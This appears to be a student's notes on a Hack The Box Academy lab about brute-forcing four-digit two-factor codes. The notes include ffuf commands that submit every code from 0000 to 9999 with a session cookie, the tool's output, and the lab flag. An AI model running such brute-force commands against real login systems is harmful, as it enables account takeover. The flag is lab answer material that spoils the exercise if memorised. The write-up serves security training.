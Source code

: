 ```yaml
---
sticker: emoji//1faaa
---
```

Two-factor authentication (2FA) provides an additional layer of security to protect user accounts from unauthorized access. Typically, this is achieved by combining knowledge-based authentication (password) with ownership-based authentication (the 2FA device). However, 2FA can also be achieved by combining any other two of the major three authentication categories we discussed previously. Therefore, 2FA makes it significantly more difficult for attackers to access an account even if they manage to obtain the user's credentials. By requiring users to provide a second form of authentication, such as a one-time code generated by an authenticator app or sent via SMS, 2FA mitigates the risk of unauthorized access. This extra layer of security significantly enhances the overall security posture of an account, reducing the likelihood of successful account breaches.

---

## Attacking Two-Factor Authentication (2FA)

One of the most common 2FA implementations relies on the user's password and a time-based one-time password (TOTP) provided to the user's smartphone by an authenticator app or via SMS. These TOTPs typically consist only of digits, making them potentially guessable if the length is insufficient and the web application does not implement measures against successive submission of incorrect TOTPs. For our lab, we will assume that we obtained valid credentials in a prior phishing attack: `admin:admin`. However, the web application is secured with 2FA, as we can see after logging in with the obtained credentials:

   

![](https://academy.hackthebox.com/storage/modules/269/bf/bf_2fa_1.png)

The message in the web application shows that the TOTP is a 4-digit code. Since there are only `10,000` possible variations, we can easily try all possible codes. To achieve this, let us first take a look at the corresponding request to prepare our parameters for `ffuf`:

![image](https://academy.hackthebox.com/storage/modules/269/bf/bf_2fa_2.png)

As we can see, the TOTP is passed in the `otp` POST parameter. Furthermore, we need to specify our session token in the `PHPSESSID` cookie to associate the TOTP with our authenticated session. Just like in the previous section, we can generate a wordlist containing all 4-digit numbers from `0000` to `9999` like so:


```shell-session
smoothment@htb[/htb]$ seq -w 0 9999 > tokens.txt
```

Afterward, we can use the following command to brute-force the correct TOTP by filtering out responses containing the `Invalid 2FA Code` error message:

```shell-session
smoothment@htb[/htb]$ ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"

<SNIP>
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 648ms]
    * FUZZ: 6513
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 635ms]
    * FUZZ: 6514

<SNIP>
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 1ms]
    * FUZZ: 9999
```

As we can see, we get many hits. That is because our session successfully passed the 2FA check after we had supplied the correct TOTP. Since `6513` was the first hit, we can assume this was the correct TOTP. Afterward, our session is marked as fully authenticated, so all requests using our session cookie are redirected to `/admin.php`. To access the protected page, we can simply access the endpoint `/admin.php` in the web browser and see that we successfully passed 2FA.

# Question
---

![[Pasted image 20250214162315.png]]

Ok, let's authenticate:

![[Pasted image 20250214162403.png]]

Once we try to authenticate, we go to `/2fa.php` and subsequently, we are able to see this:


![[Pasted image 20250214162451.png]]

We need a 2FA code, but we do not have one, what can we do now?

This is were brute-forcing the 2fa code, comes in handy, let's do it:

First, let's generate our list of codes:

```
seq -w 0 9999 > tokens.txt
```

Next, let's check the response of what an invalid code looks like, for example, if we enter 1111:

![[Pasted image 20250214162733.png]]

We get `Invalid 2FA Code`, knowing all this, we can build our ffuf command:

```
ffuf -w ./tokens.txt -u http://94.237.54.116:39864/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=vcvsoagh3ordpepfb49nanpv57" -d "otp=FUZZ" -fr "Invalid 2FA Code" -ic -c -t 200 
```

After a while, we get this:

```
ffuf -w ./tokens.txt -u http://94.237.54.116:39864/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=vcvsoagh3ordpepfb49nanpv57" -d "otp=FUZZ" -fr "Invalid 2FA Code" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.54.116:39864/2fa.php
 :: Wordlist         : FUZZ: /home/samsepiol/tokens.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Cookie: PHPSESSID=vcvsoagh3ordpepfb49nanpv57
 :: Data             : otp=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Invalid 2FA Code
________________________________________________

0085                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 792ms]
0097                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 776ms]
0041                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 790ms]
0022                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 808ms]
0043                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 807ms]
0038                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 806ms]
```

The first code is our 2fa code:

```
0085
```

We can now authenticate:

![[Pasted image 20250214163819.png]]

Flag is:

```
HTB{9837b33a1ef678c380addf7ef8a517de}
```
